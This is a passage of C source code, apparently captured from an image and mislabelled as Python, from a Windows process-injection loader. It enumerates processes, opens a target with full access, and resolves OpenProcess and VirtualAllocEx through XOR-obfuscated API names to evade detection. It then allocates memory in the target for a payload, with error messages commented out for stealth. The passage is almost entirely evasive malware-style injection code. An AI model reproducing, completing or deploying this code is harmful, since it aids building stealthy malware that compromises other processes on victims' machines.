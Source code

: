 ```python
            (
                DWORD dwDesiredAccess,
                BOOL  bInheritHandle,
                DWORD dwProcessId             
            )) GetProcAddress( kernel32_dll_handle, OpenProcess_encrypted );

            if( NULL == _OpenProcess )
            {
                // printf( "Could not resolve OpenProcess!\n" );
                return 1;
            }

            target_process = _OpenProcess( PROCESS_ALL_ACCESS, TRUE, current_process.th32ProcessID );
            break;
        }
    }

    while( _Process32Next(process_snapshot, &current_process) );

    CloseHandle( process_snapshot );

    if( NULL == target_process )
    {
        return 1;
    }

    //
    // ALLOCATE MEMORY IN TARGET PROCESS
    //
    size_t payload_size = sizeof( payload );
    LPVOID target_process_allocated_memory = NULL;
    
    unsigned char VirtualAllocEx_encrypted[] = { 0x01, 0x3e, 0x25, 0x23, 0x22, 0x36, 0x3b, 0x16, 0x3b, 0x3b, 0x38, 0x34, 0x12, 0x2f, 0x57 };
    xor_decrypt( VirtualAllocEx_encrypted, sizeof(VirtualAllocEx_encrypted) );

    LPVOID( WINAPI * _VirtualAllocEx )
    (
        HANDLE hProcess,
        LPVOID lpAddress,
        SIZE_T dwSize,
        DWORD  flAllocationType,
        DWORD  flProtect    
    );

    _VirtualAllocEx = ( LPVOID( WINAPI *) 
    (
        HANDLE hProcess,
        LPVOID lpAddress,
        SIZE_T dwSize,
        DWORD  flAllocationType,
        DWORD  flProtect    
    )) GetProcAddress( kernel32_dll_handle, VirtualAllocEx_encrypted );

    if( NULL == _VirtualAllocEx )
    {
        // printf( "Could not resolve VirtualAllocEx!\n" );
        return 1;
    }

    target_process_allocated_memory = _VirtualAllocEx( target_process, NULL, payload_size, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE );
```
